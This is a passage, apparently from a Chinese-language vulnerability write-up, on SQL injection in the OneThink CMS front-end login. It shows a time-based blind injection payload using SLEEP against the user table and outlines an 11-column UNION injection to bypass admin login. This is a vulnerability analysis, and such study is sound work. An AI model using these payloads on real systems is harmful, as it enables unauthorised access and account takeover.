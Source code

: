     SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        BETWEEN 1 AND ( SELECT 1 FROM (SELECT SLEEP(2))X)))-- - '' AND null ) ) LIMIT 1

ok，现在有了注入，我们就能使用联合查询，来绕过后台用户登录，实现\"万能密码\"的效果。但在这之前，还需要分析完整的登录逻辑。

登录逻辑分析
------------

使用[FileMonitor](https://github.com/ianxtianxt/FileMonitor)工具，得到后台登录处的SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` = '1' ) LIMIT 1

而数据表`onethink_ucenter_member`的结构如下图，有11列，那么联合注入就需要构造11个参数`union select 1,2,3,4,...,11`

![11.png](resource/OneThink前台注入/media/rId37.png)
